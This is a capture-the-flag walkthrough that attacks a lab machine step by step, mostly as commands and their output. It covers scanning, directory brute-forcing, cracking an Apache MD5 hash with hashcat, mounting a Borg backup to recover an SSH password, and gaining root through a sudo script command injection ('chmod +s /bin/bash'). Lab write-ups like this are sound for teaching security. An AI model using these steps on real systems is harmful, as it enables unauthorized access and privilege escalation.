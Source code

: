 #### 1. Scanning 

```
nmap -Pn -A -T4 10.10.106.99                                          130 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-26 11:24 EST
Nmap scan report for 10.10.106.99
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.95 seconds
```

#### 2. Gobuster

```
gobuster dir -u http://10.10.106.99 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.106.99
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/01/26 11:26:08 Starting gobuster
===============================================================
/index.html (Status: 200)
/admin (Status: 301)
/etc (Status: 301)
```

There are two directiories found - `/admin` and `/etc/`. In first one, we access Archive section and download `archive.zip` to our machine for further investigation.

In another one `/etc` there is a file with username and hash alltogether:

`music_archives:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`



#### 3. Identyfing found hash

Thanks to has-identifer, we guess the type which is MD5:

```
hash-identifier                                                        
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

Possible Hashs:
[+] MD5(APR)
```

However, after after little of googling, in fact it is `Apache $apr1$ MD5, md5apr1, MD5 (APR) 2` 



#### 4. Cracking hash with hashcat

Hashcat type number is `1600` so full command will be:

```
hashcat --force -m 1600 -a 0 hash /usr/share/wordlists/rockyou.txt

```

After some time it gives a password:

`$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward`
                                                 
so final credentials are

`music_archive:squidward`



#### 5. Checking archive.zip

I download and extract the archive:

`tar -xvf archive.zip`

There are many files inside, including `README` which says it is a Borg repository 



#### 6. Using borg to extract a repository

First of all, I list files which are inside and enter passphrase cracked earlier:

```
borg list /home/kali/Downloads/home/field/dev/final_archive
Enter passphrase for key /home/kali/Downloads/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 09:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

Then, I create a folder where I wil extract files:

`mkdir music_archive`

then mount `final_archive` to `music_archive`

```
borg mount /home/kali/Downloads/home/field/dev/final_archive music_archive 
Enter passphrase for key /home/kali/Downloads/home/field/dev/final_archive: 
```

and once done, I find backuped directory `/home/alex` with many directories:

```
kali㉿kali)-[~/…/music_archive/music_archive/home/alex]
└─$ ls -al
total 6
drwxr-xr-x 1 1001 1001    0 Dec 29 08:55 .
drwxr-xr-x 1 kali kali    0 Jan 26 12:25 ..
-rw------- 1 1001 1001  439 Dec 28 12:26 .bash_history
-rw-r--r-- 1 1001 1001  220 Dec 28 09:25 .bash_logout
-rw-r--r-- 1 1001 1001 3637 Dec 28 09:25 .bashrc
drwx------ 1 root root    0 Dec 28 11:33 .config
drwx------ 1 root root    0 Dec 28 11:33 .dbus
drwxrwxr-x 1 1001 1001    0 Dec 29 08:57 Desktop
drwxrwxr-x 1 1001 1001    0 Dec 29 08:55 Documents
drwxrwxr-x 1 1001 1001    0 Dec 28 12:59 Downloads
drwxrwxr-x 1 1001 1001    0 Dec 28 13:00 Music
drwxrwxr-x 1 1001 1001    0 Dec 28 13:26 Pictures
-rw-r--r-- 1 1001 1001  675 Dec 28 09:25 .profile
drwxrwxr-x 1 1001 1001    0 Dec 28 12:59 Public
drwxrwxr-x 1 1001 1001    0 Dec 28 13:00 Templates
drwxrwxr-x 1 1001 1001    0 Dec 28 12:59 Videos
```

After quick research I find `note.txt` inside `Documents`

```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

From now on, having both, we can ssh  to machine and become oot.



#### 7. SSH as alex

I ssh and in home direcotry there is user.txt flag:

```
alex@ubuntu:~$ ls -al
total 108
drwx------ 17 alex alex 4096 Dec 31 10:45 .
drwxr-xr-x  3 root root 4096 Dec 30 01:36 ..
-rw-------  1 alex alex 1145 Dec 31 10:50 .bash_history
-rw-r--r--  1 alex alex  220 Dec 30 01:36 .bash_logout
-rw-r--r--  1 alex alex 3771 Dec 30 01:36 .bashrc
drwx------ 13 alex alex 4096 Jan 26 09:32 .cache
drwx------  3 alex alex 4096 Dec 30 02:28 .compiz
drwx------ 15 alex alex 4096 Dec 30 01:48 .config
drwxr-xr-x  2 alex alex 4096 Dec 30 01:39 Desktop
-rw-r--r--  1 alex alex   25 Dec 30 01:39 .dmrc
drwxr-xr-x  2 alex alex 4096 Dec 30 01:39 Documents
drwxr-xr-x  2 alex alex 4096 Dec 31 10:46 Downloads
drwx------  2 alex alex 4096 Dec 30 01:40 .gconf
drwx------  3 alex alex 4096 Dec 31 10:45 .gnupg
-rw-------  1 alex alex 1590 Dec 31 10:45 .ICEauthority
drwx------  3 alex alex 4096 Dec 30 01:39 .local
drwx------  5 alex alex 4096 Dec 30 01:43 .mozilla
drwxr-xr-x  2 alex alex 4096 Dec 30 02:12 Music
drwxr-xr-x  2 alex alex 4096 Dec 30 01:39 Pictures
-rw-r--r--  1 alex alex  655 Dec 30 01:36 .profile
drwxr-xr-x  2 alex alex 4096 Dec 30 01:39 Public
-rw-r--r--  1 alex alex    0 Dec 30 01:41 .sudo_as_admin_successful
drwxr-xr-x  2 alex alex 4096 Dec 30 01:39 Templates
-r-xr--r--  1 alex alex   40 Dec 30 02:26 user.txt
drwxr-xr-x  2 alex alex 4096 Dec 30 01:39 Videos
-rw-------  1 alex alex   51 Dec 31 10:44 .Xauthority
-rw-------  1 alex alex   82 Dec 31 10:45 .xsession-errors
-rw-------  1 alex alex   82 Dec 31 02:40 .xsession-errors.old
alex@ubuntu:~$ cat user.txt
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
alex@ubuntu:~$ 
```



#### 8. Escalate to root

I check `sudo -l`  and turns out alex can execute a custom script which backups files, however in the end it runs as root

It backups files, however in the end there is a weird part:

```
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```

which echoes command we type with `-c` before it, and user is root.

So let's give ourselves root:

`sudo ./backup.sh -c "chmod +s /bin/bash"`

and switch to it:

`bash -p`

and it's done:

```
bash-4.3# cat /root/root.txt
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

That was a great one !


